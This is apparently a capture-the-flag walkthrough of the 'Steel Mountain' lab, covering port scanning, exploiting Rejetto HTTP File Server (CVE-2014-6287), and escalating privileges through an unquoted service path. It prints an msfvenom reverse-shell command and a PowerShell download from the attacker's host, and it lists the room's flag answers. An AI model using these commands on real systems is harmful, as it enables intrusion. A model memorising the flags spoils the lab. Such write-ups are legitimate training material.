 # Steel Mountain

## Introduction

**Questions**

    1. Who is the employee of the month?

Bill Harper

## Initial Access

**Questions**

    1. Scan the machine with nmap .What is the other port running a web server on?

8080

Default nmap scan did not pick this up for some reason. Using `-p-` was able to show this port too.

    2. Take a look at the other web server. What file server is running?

Rejetto HTTP File Server

    3. What is the CVE number to exploit this file server?

2014-6287

    4. Use Metasploit to get an initial shell. What is the user flag?

b04763b6fcf51fcd7c13abc7db4fd365

Found on the desktop.

## Privilege Escalation

Now that we have a shell, lets try and escalate privileges to root. Enumerate with the `PowerUp.ps1` script.

So this was a total disaster for me. Powershell seemed ridiculously unstable and would freeze. In fact it took multiple attempts to run the script.

It found the AdvancedSystemCareService9 service could be stopped and started. This allowed me to create a reverse shell payload with `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.32.89 LPORT=8888 -e x86/shikata_ga_nai -f exe -o ASCService.exe`.

The service can then be stopped with `sc stop AdvancedSystemCareService9`. Uploading the created executable and restarting the service returned a root shell.

**Questions**

    1. Take close attention to the CanRestart option that is set to true. What is the name of the name of the service which shows up as an unquoted service path vulnerability?

AdvancedSystemCareService9

    2. What is the root flag?

9af5f314f57607c00fd09803a587db80

## Access and Escalation Without Metasploit

Use the exploit.py script to get onto the machine.

Once on the machine use the command `powershell -c wget "http://10.11.32.89:80/winPEAS.exe" -outfile "winPEAS.exe"` in order to copy winPEAS over.

Execute winPEAS. Notice it spots the same exploit previously used.

Now we can stop the service and copy over the malware through wget again in order to gain administrator access.

**Questions**

    1. What powershell -c command could we run to manually find out the service name?

`powershell -c Get-Service`